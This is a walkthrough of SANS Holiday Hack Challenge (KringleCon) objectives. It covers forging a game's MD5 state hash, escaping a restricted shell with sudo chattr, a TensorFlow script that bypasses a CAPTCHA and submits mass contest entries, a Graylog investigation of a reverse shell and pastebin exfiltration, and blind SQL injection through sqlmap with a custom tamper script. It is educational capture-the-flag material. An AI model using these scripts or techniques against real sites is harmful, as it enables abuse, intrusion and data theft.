
In hard mode, the distance parameter is submitted in a POST request, just like before; however, there is also a hash value that validates some of the game state parameters and makes it harder to cheat.
If you watch Chris Elgee's YouTube talk about web application testing, you may glimpse part of the code that creates this hash. With this you can calculate your own hash for any arbitrary set of game state values.

Assuming you start the game without buying anything in the store, the values for Money + Distance + Day + Month + Reindeer + Runners + Ammo + Meds + Food add up to 1626. The md5 hash of 1626 is bc573864331a9e42e4511de6f678aa83.
$ bc <<< '1500 + 0 + 1 + 9 + 2 + 2 + 10 + 2 + 100' 1626 $ echo -n 1626 | md5sum bc573864331a9e42e4511de6f678aa83 -
To win hard mode, start the game in the same way as the previous two modes. Use web browser developer tools to update the distance parameter to 7999. Now you need to calculate a new hash so that it will validate your new game state values.
$ bc <<< '1500 + 0 + 1 + 9 + 2 + 2 + 10 + 2 + 100 + 7999' 9625 $ echo -n 9625 | md5sum c50ca47bfdb28b8cbf1a59cc68396656 -
Update the hash parameter to c50ca47bfdb28b8cbf1a59cc68396656, then press the Go button in the game.
You win!
Get hint from Minty Candycane
You made it - congrats!
Have you played with the key grinder in my room? Check it out!
It turns out: if you have a good image of a key, you can physically copy it.
Maybe you'll see someone hopping around with a key here on campus.
Sometimes you can find it in the Network tab of the browser console.
Deviant has a great talk on it at this year's Con.
He even has a collection of key bitting templates for common vendors like Kwikset, Schlage, and Yale.
Easter Egg
Doctor Who's TARDIS makes an appearance again in this year's Holiday Hack Challenge!
Open the door to the steam tunnel
Enter the dorm room, and observe an unusual character who quickly exits and closes the door at the other end of the room. When you follow him, all you find is a closet with a keyhole on the back wall. Closer observation of the character reveals he's got a key hanging from his belt. As Minty said, if you can get a good look at the key, you should be able to duplicate it using a technique discussed in Deviant KringleCon talk.

Download the character's avatar image using your browser developer tools. Based on the shape of its head, you can tell that it goes to a Schlage lock. Download Deviant's key bitting template for Schlage and overlay the images in GIMP to determine what the bitting values of the key are.
Enter the code 122520 into the key cutter and then take that key to the lock in the closet. When you insert the key into the lock, the back way of the closet opens, giving you access to the steam tunnels.
Note
More music inspired by Mary Poppins is playing in the steam tunnel. This time, it's adapted from the song "Chim-Chim-Cheree".
At the end of the end of the Steam Tunnel, the mysterious character now appears with the name "Krampus" over his head.
Talk to Krampus to get the answer
Hello there! I’m Krampus Hollyfeld.
I maintain the steam tunnels underneath Elf U,
Keeping all the elves warm and jolly.
Though I spend my time in the tunnels and smoke,
In this whole wide world, there's no happier bloke!
Yes, I borrowed Santa’s turtle doves for just a bit.
Someone left some scraps of paper near that fireplace, which is a big fire hazard.
I sent the turtle doves to fetch the paper scraps.
Note
Another quote from Mary Poppins, just like the music.
In this whole wide world there's no happier bloke."
Get a hint from Krampus
But, before I can tell you more, I need to know that I can trust you. Tell you what – if you can help me beat the Frido Sleigh contest (Objective 8), then I'll know I can trust you.
The contest is here on my screen and at fridosleigh.com. No purchase necessary, enter as often as you want, so I am! They set up the rules, and lately, I have come to realize that I have certain materialistic, cookie needs.
Unfortunately, it's restricted to elves only, and I can't bypass the CAPTEHA. (That's Completely Automated Public Turing test to tell Elves and Humans Apart.) I've already cataloged 12,000 images and decoded the API interface. Can you help me bypass the CAPTEHA and submit lots of entries?
Answer: Krampus Hollyfeld
Objective 8 - Bypass the Frido Sleigh CAPTEHA
Help Krampus beat the Frido Sleigh contest. For hints on achieving this objective, please talk with Alabaster Snowball in the Speaker Unpreparedness Room. (Difficulty: 4 out of 5)
Talk to Alabaster Snowball
Welcome to the Speaker UNpreparedness Room!
My name's Alabaster Snowball and I could use a hand.
I'm trying to log into this terminal, but something's gone horribly wrong.
Every time I try to log in, I get accosted with ... a hatted cat and a toaster pastry?
I thought my shell was Bash, not flying feline.
When I try to overwrite it with something else, I get permission errors.
Have you heard any chatter about immutable files? And what is sudo -l telling me?
Terminal: Escape the nyanshell

When you first try to su to Alabaster's account, you're rick-rolled with the nyancat instead of getting a shell prompt.
At first glance, it looks like you can fix this by overwriting the nsh file with one of your own, since all users have read-write access to the file. When you try this, you get an error message.
elf@4c766b0e924e:~$ ls -l /bin/nsh -rwxrwxrwx 1 root root 75680 Dec 11 17:40 /bin/nsh elf@4c766b0e924e:~$ cp /bin/sh /bin/nsh cp: cannot create regular file '/bin/nsh': Operation not permitted
Using Alabaster's hints to look at sudo, observe that you can run chattr as root without using a password. This allows you to change file attributes on the file system.
elf@71bc1045d1b3:~$ sudo -l
Matching Defaults entries for elf on 71bc1045d1b3:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User elf may run the following commands on 71bc1045d1b3:
(root) NOPASSWD: /usr/bin/chattr
One of the attributes you can set on a file makes it "immutable" or unalterable. Remove that attribute from the file and try replacing the nsh binary again.
elf@3fdbf205de73:/bin$ sudo chattr -i /bin/nsh elf@3fdbf205de73:/bin$ cp /bin/sh /bin/nsh elf@3fdbf205de73:/bin$ su alabaster_snowball Password: Loading, please wait...... You did it! Congratulations!
Get hint from Alabaster
Who would do such a thing?? Well, it IS a good looking cat.
Have you heard about the Frido Sleigh contest?
There are some serious prizes up for grabs.
The content is strictly for elves. Only elves can pass the CAPTEHA challenge required to enter.
I heard there was a talk at KCII about using machine learning to defeat challenges like this.
I don't think anything could ever beat an elf though!
Win the Fridosleigh contest
An outline for carrying out this task is provided in the KringleCon talk Machine Learning Use Cases for Cybersecurity, by Chris Davis. Be sure to watch this before getting started.
Download the tensorflow demonstration code from the KringleCon talk.
$ git clone http://github.com/chrisjd20/img_rec_tf_ml_demo
Download the capteha images cataloged by Krampus and unpack them into a folder.
$ cd img_rec_tf_ml_demo $ wget https://downloads.elfu.org/capteha_images.tar.gz $ mkdir capteha_images $ tar xzf capteha_images.tar.gz -C capteha_images
Download the decoded Capteha API that Krampus provided.
$ wget https://downloads.elfu.org/capteha_api.py
Follow the prerequisites in README.md to ensure python3 and necessary modules are installed
$ sudo apt install python3 python3-pip -y $ sudo python3 -m pip install --upgrade pip $ sudo python3 -m pip install --upgrade setuptools $ sudo python3 -m pip install --upgrade tensorflow==1.15 $ sudo python3 -m pip install tensorflow_hub
Retrain tensorflow using the capteha images.
$ python3 retrain.py --image_dir=capteha_images/
Append the following to the imports in capteha_api.py.
from predict_images_using_trained_model import load_labels, \ predict_image, load_graph, read_tensor_from_image_bytes import os import tensorflow as tf import numpy as np import threading import queue import time import base64
Comment out the line that sets final_answer in capteha_api.py.
#final_answer = ','.join( [ img['uuid'] for img in b64_images ] )
Write your own image processing and machine learning image prediction code based on the what's provided in predict_images_using_trained_model.py, and insert this into capteha_api.py under MISSING IMAGE PROCESSING AND ML IMAGE PREDICTION CODE GOES HERE.
The final script should look like this:
#!/usr/bin/env python3 # Fridosleigh.com CAPTEHA API - Made by Krampus Hollyfeld import requests import json import sys from predict_images_using_trained_model import load_labels, predict_image, load_graph, read_tensor_from_image_bytes import os import tensorflow as tf import numpy as np import threading import queue import time import base64 def main(): yourREALemailAddress = "me@domain.com" # Creating a session to handle cookies s = requests.Session() url = "https://fridosleigh.com/" json_resp = json.loads(s.get("{}api/capteha/request".format(url)).text) b64_images = json_resp['images'] # A list of dictionaries eaching containing the keys 'base64' and 'uuid' challenge_image_type = json_resp['select_type'].split(',') # The Image types the CAPTEHA Challenge is looking for. challenge_image_types = [challenge_image_type[0].strip(), challenge_image_type[1].strip(), challenge_image_type[2].replace(' and ','').strip()] # cleaning and formatting ''' MISSING IMAGE PROCESSING AND ML IMAGE PREDICTION CODE GOES HERE ''' select_type = json_resp['select_type'] results = [] # Loading the Trained Machine Learning Model created from running retrain.py on the training_images directory graph = load_graph('/tmp/retrain_tmp/output_graph.pb') labels = load_labels("/tmp/retrain_tmp/output_labels.txt") # Load up our session input_operation = graph.get_operation_by_name("import/Placeholder") output_operation = graph.get_operation_by_name("import/final_result") sess = tf.compat.v1.Session(graph=graph) # Can use queues and threading to spead up the processing q = queue.Queue() for b64_image in b64_images: img_full_path = b64_image['uuid'] img = b64_image['base64'] image_bytes = base64.b64decode(img) # We don't want to process too many images at once. 10 threads max while len(threading.enumerate()) > 10: time.sleep(0.0001) #predict_image function is expecting png image bytes so we read image as 'rb' to get a bytes object threading.Thread(target=predict_image, args=(q, sess, graph, image_bytes, img_full_path, labels, input_operation, output_operation)).start() print('Waiting For Threads to Finish...') while q.qsize() < len(b64_images): time.sleep(0.001) #getting a list of all threads returned results prediction_results = [q.get() for x in range(q.qsize())] for prediction in prediction_results: print('TensorFlow Predicted {img_full_path} is a {prediction} with {percent:.2%} Accuracy'.format(**prediction)) if (prediction['prediction'] in challenge_image_types): results.append(prediction['img_full_path']) print("Match: " + prediction['img_full_path']) final_answer = ','.join(results) ''' END OF IMAGE PROCESSING CODE ''' # This should be JUST a csv list image uuids ML predicted to match the challenge_image_type . #final_answer = ','.join( [ img['uuid'] for img in b64_images ] ) json_resp = json.loads(s.post("{}api/capteha/submit".format(url), data={'answer':final_answer}).text) if not json_resp['request']: # If it fails just run again. ML might get one wrong occasionally print('FAILED MACHINE LEARNING GUESS') print('--------------------\nOur ML Guess:\n--------------------\n{}'.format(final_answer)) print('--------------------\nServer Response:\n--------------------\n{}'.format(json_resp['data'])) sys.exit(1) print('CAPTEHA Solved!') # If we get to here, we are successful and can submit a bunch of entries till we win userinfo = { 'name':'Krampus Hollyfeld', 'email':yourREALemailAddress, 'age':180, 'about':"Cause they're so flippin yummy!", 'favorites':'thickmints' } # If we win the once-per minute drawing, it will tell us we were emailed. # Should be no more than 200 times before we win. If more, somethings wrong. entry_response = '' entry_count = 1 while yourREALemailAddress not in entry_response and entry_count < 200: print('Submitting lots of entries until we win the contest! Entry #{}'.format(entry_count)) entry_response = s.post("{}api/entry".format(url), data=userinfo).text entry_count += 1 print(entry_response) if __name__ == "__main__": main()
Once the capteha has been solved, the script will submit entries for the contest until it detects one of those entries has won. You will get an e-mail with a unique code to submit in your badge to complete this objective.
<..output shortened..>
Submitting lots of entries until we win the contest! Entry #98
Submitting lots of entries until we win the contest! Entry #99
Submitting lots of entries until we win the contest! Entry #100
Submitting lots of entries until we win the contest! Entry #101
Submitting lots of entries until we win the contest! Entry #102
{"data":"<h2 id=\"result_header\"> Entries for email address you@domain.com no longer
accepted as our systems show your email was already randomly selected as a winner! Go
check your email to get your winning code. Please allow up to 3-5 minutes for the email
to arrive in your inbox or check your spam filter settings. <br><br> Congratulations and
Happy Holidays!</h2>","request":true}
Talk to Krampus again
You did it! Thank you so much. I can trust you!
To help you, I have flashed the firmware in your badge to unlock a useful new feature: magical teleportation through the steam tunnels.
As for those scraps of paper, I scanned those and put the images on my server.
I then threw the paper away.
Unfortunately, I managed to lock out my account on the server.
Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?
A new skill is unlocked - you can now travel through the steam tunnels! Open badge and click on "Steam Tunnels". Use this to get to the Dorm for the next objective.

Objective 9 - Retrieve Scraps of Paper from Server
Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system? For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix. (Difficulty 4 of 5).
Talk to Pepper Minstix
It's me - Pepper Minstix. Normally I'm jollier, but this Graylog has me a bit mystified. Have you used Graylog before? It is a log management system based on Elasticsearch, MongoDB, and Scala. Some Elf U computers were hacked, and I've been tasked with performing incident response. Can you help me fill out the incident response report using our instance of Graylog?
It's probably helpful if you know a few things about Graylog. Event IDs and Sysmon are important too. Have you spent time with those? Don't worry - I'm sure you can figure this all out for me! Click on the All messages Link to access the Graylog search interface! Make sure you are searching in all messages!
The Elf U Graylog server has an integrated incident response reporting system. Just mouse-over the box in the lower-right corner. Login with the username elfustudent and password elfustudent.
Investigate an incident using Graylog
Access the ElfU Graylog server as instructed above by Pepper Minstix. After logging in, click on the "All Messages" link, then select "Search in all messages" in the drop-down box at the top of the next screen. Find the first question by hovering over the box in the lower-right corner of the screen.
Question 1: Minty CandyCane reported some weird activity on his computer after he clicked on a link in Firefox for a cookie recipe and downloaded a file. What is the full-path + filename of the first malicious file downloaded by Minty?
-
Query:
EventID:2 AND ProcessImage:"C:\\Program Files\\Mozilla Firefox\\firefox.exe" AND NOT TargetFilename:C\:\\*.temp -
Answer: C:\Users\minty\Downloads\cookie_recipe.exe
-
Solution: Find this by searching for sysmon file creation event id 2 with a process named firefox.exe and not junk .temp files. Use wildcards or regular expressions to include or exclude patterns. Note: by default, Graylog will not permit a wildcard at the beginning of a search string, so a regular expression is more useful in this case (example:
TargetFilename:/.+\.pdf/).
Question 2: The malicious file downloaded and executed by Minty gave the attacker remote access to his machine. What was the ip:port the malicious file connected to first?
-
Query:
EventID:3 AND ProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe -
Answer: 192.168.247.175:4444
-
Pivot off the answer to the first question using the binary path as our ProcessImage.
Question 3: What was the first command executed by the attacker? (answer is a single word)
-
Query:
EventID:1 AND ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe(also, reverse the timestamp order of the results so the oldest log entry comes first) -
Answer: whoami
-
Since all commands (sysmon event id 1) by the attacker are initially running through the cookie_recipe.exe binary, set its full-path as the ParentProcessImage to find child processes it creates sorting on timestamp.
Question 4: What is the one-word service name the attacker used to escalate privileges?
-
Query: (same as above)
-
Answer: webexservice
-
Continuing on using the cookie_reciper.exe binary as the ParentProcessImage, look for subsequent commands related to a service.
Question 5: What is the file-path + filename of the binary ran by the attacker to dump credentials?
-
Query:
EventID:1 AND ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe2.exe -
Answer: C:\cookie.exe
-
This executable is mimikatz.exe in disguise. The attacker elevates privileges using the vulnerable webexservice to run a file called cookie_recipe2.exe. Use this binary path to search for a matching ParentProcessImage.
Question 6: The attacker pivoted to another workstation using credentials gained from Minty's computer. Which account name was used to pivot to another machine?
-
Query:
EventID:4624 AND SourceNetworkAddress:192.168.247.175 -
Answer: alabaster
-
Windows Event Id 4624 is generated when a user network logon occurs successfully. You can also filter on the attacker's IP using SourceNetworkAddress.
Question 7: What is the time ( HH:MM:SS ) the attacker makes a Remote Desktop connection to another machine?
-
Query:
EventID:4624 AND SourceNetworkAddress:192.168.247.175 AND LogonType:10 -
Answer: 06:04:28
-
LogonType 10 is used for successful network connections using the RDP client.
Question 8: The attacker navigates the file system of a third host using their Remote Desktop Connection to the second host. What is the SourceHostName,DestinationHostname,LogonType of this connection?
-
Query:
SourceHostName:ELFU\-RES\-WKS2 AND LogonType:3 AND EventID:4624 -
Answer: elfu-res-wks2,elfu-res-wks3,3
-
The attacker has GUI access to workstation 2 via RDP. They likely used this GUI connection to access the file system of of workstation 3 using explorer.exe via UNC file paths (which is why you don't see any cmd.exe or powershell.exe process creation events). However, you will still see the successful network authentication for this with event id 4624 and logon type 3.
Question 9: What is the full-path + filename of the secret research document after being transferred from the third host to the second host?
-
Query:
EventID:2 AND source:elfu\-res\-wks2 AND NOT TargetFilename:/.+AppData.+/ -
Answer: C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf
-
Look for a sysmon file creation event id of 2 with a source of workstation 2. You can also use regex to filter out overly common file paths using something like: AND NOT TargetFilename:/.+AppData.+/
Question 10: What is the IPv4 address (as found in logs) the secret research document was exfiltrated to?
-
Query:
CommandLine:/.+super_secret_elfu_research.pdf.+/ -
Answer: 104.22.3.84
-
Look for the original document in CommandLine using regex. You'll see a long a long PowerShell command using Invoke-Webrequest to a remote URL of https://pastebin.com/post.php. Pivot off of this information to look for a sysmon network connection id of 3 with a source of elfu-res-wks2 and DestinationHostname of pastebin.com.
Once the questions are answered, you get:
Incident Response Report #7830984301576234 Submitted. Incident Fully Detected!
Hint from Pepper Minstix
That's it - hooray!
Have you had any luck retrieving scraps of paper from the Elf U server?
You might want to look into SQL injection techniques.
OWASP is always a good resource for web attacks.
For blind SQLi, I've heard Sqlmap is a great tool.
In certain circumstances though, you need custom tamper scripts to get things going!
Obtain the scraps of paper
If you run sqlmap with with only default settings, it will detect that there are injectable input parameters; however it is unable to exploit them. Upon inspecting the request to the server closer, you observe that there is a token submitted along with data from the input fields on the form.

This token is obtained by the browser using some javascript code immediately before the form is submitted to the server. Without the token, the submission is considered invalid.
<!-- Custom js --> <script> function submitApplication() { console.log("Submitting"); elfSign(); document.getElementById("check").submit(); } function elfSign() { var s = document.getElementById("token"); const Http = new XMLHttpRequest(); const url='/validator.php'; Http.open("GET", url, false); Http.send(null); if (Http.status === 200) { console.log(Http.responseText); s.value = Http.responseText; } }
To solve this challenge, you'll have to figure out how to make sqlmap obtain a token each time it submits a request to the server. Fortunately, it's pretty easy to obtain a token.
$ curl https://studentportal.elfu.org/validator.php MTAxMDQ4MTUwNjU2MTU3ODg3NzM1NDEwMTA0ODE1MC42NTY=_MTI5MzQxNjMyODM5NjgzMjMzNTQwODIwLjk5Mg==
Pepper Minstix suggested using a tamper script to automate this. Sqlmap includes some tamper scripts out of the box for some common IDS and WAF evasion techniques, but you can write a custom tamper script to manipulate the payload your own way.
This tamper script (elfu.py) should work, using the following command: sqlmap -u "https://studentportal.elfu.org/application-received.php" --data "name=a&elfmail=elf@u.edu&program=c&phone=d&whyme=e&essay=f" -p essay --tamper elfu
#!/usr/bin/env python from lib.core.data import kb from lib.core.enums import PRIORITY import requests __priority__ = PRIORITY.NORMAL def dependencies(): pass def tamper(payload, **kwargs): if payload: url = "https://studentportal.elfu.org/validator.php" resp = requests.get(url) token = resp.text.encode('utf-8') payload = ("%s&token=%s" % (payload, token)) return payload
It turns out this doesn't work because sqlmap urlencoded the &token=<string> in the POST data, making it invalid to the server.
To get around that, you modify the tamper script to supply all of the parameters, which you selectively urlencode. This time, you run sqlmap -u "https://studentportal.elfu.org/application-received.php" --data "*" --tamper elfu --skip-urlencode with the following tamper script.
#!/usr/bin/env python from lib.core.data import kb from lib.core.enums import PRIORITY import requests import urllib __priority__ = PRIORITY.NORMAL def dependencies(): pass def tamper(payload, **kwargs): if payload: params1 = 'name=a&elfmail=elf%40u.edu&program=c&phone=d&whyme=e' params2 = '&essay=f%s' % urllib.quote_plus(payload) url = 'https://studentportal.elfu.org/validator.php' resp = requests.get(url) token = resp.text.encode('utf-8') payload = ('%s%s&token=%s' % (params1, params2, token)) return payload
To prevent sqlmap from urlencoding the payload that time, you included --skip-urlencode in the command line options. In doing so, however, sqlmap changed the Content-Type: header to text/plain instead of application/x-www-form-urlencoded.
To compensate, you edit sqlmap's lib/core/settings.py file and force it to use application/x-www-form-urlencoded when using --skip-urlencode.
# Raw text POST data content-type #PLAIN_TEXT_CONTENT_TYPE = "text/plain; charset=utf-8" <-- comment this line and replace with: PLAIN_TEXT_CONTENT_TYPE = "application/x-www-form-urlencoded; charset=utf-8"
Run the previous command again, and now you get some results.
Note
There is an easier way to do this with sqlmap's --eval option, which doesn't require modifying sqlmap's code
$ sqlmap https://studentportal.elfu.org/application-received.php -p essay --data='name=a&elfmail=elf%40u.edu&program=c&phone=d&whyme=e&essay=f&token=TOKENSTRING' --eval="import requests; resp=requests.get('https://studentportal.elfu.org/validator.php'); token=resp.text.encode('utf-8')"
Once you manage to get a successful SQL injection, explore the tables in the database, and you will find a listing of images.
$ sqlmap -u "https://studentportal.elfu.org/application-received.php" --data "*" \ --tamper tamper/elfu2.py --skip-urlencode --dump -T krampus <..output shortened..> Database: elfu Table: krampus [6 entries] +----+-----------------------+ | id | path | +----+-----------------------+ | 1 | /krampus/0f5f510e.png | | 2 | /krampus/1cc7e121.png | | 3 | /krampus/439f15e6.png | | 4 | /krampus/667d6896.png | | 5 | /krampus/adb798ca.png | | 6 | /krampus/ba417715.png | +----+-----------------------+
Download the images from the server and arranging them using your preferred image editing software (i.e. GIMP). This reveals the following letter.

Is that a tooth in the background?
Answer: Super Sled-o-matic
Objective 10 - Recover Cleartext Document
The Elfscrow Crypto tool is a vital asset used at Elf University for encrypting SUPER SECRET documents. We can't send you the source, but we do have debug symbols that you can use. Recover the plaintext content for this encrypted document. We know that it was encrypted on December 6, 2019, between 7pm and 9pm UTC. What is the middle line on the cover page? (Hint: it's five words) For hints on achieving this objective, please visit the NetWars room and talk with Holly Evergreen.
Talk to Holly Evergreen
Hey! It's me, Holly Evergreen! My teacher has been locked out of the quiz database and can't remember the right solution.
Without access to the answer, none of our quizzes will get graded.
Can we help get back in to find that solution?
I tried lsof -i, but that tool doesn't seem to be installed.
I think there's a tool like ps that'll help too. What are the flags I need?
Either way, you'll need to know a teensy bit of Mongo once you're in.
Pretty please find us the solution to the quiz!
Terminal: Mongo

Run the ps command with the -w flag to view the full command line options used to start mongo, which shows the listening port is changed from default to 12121.
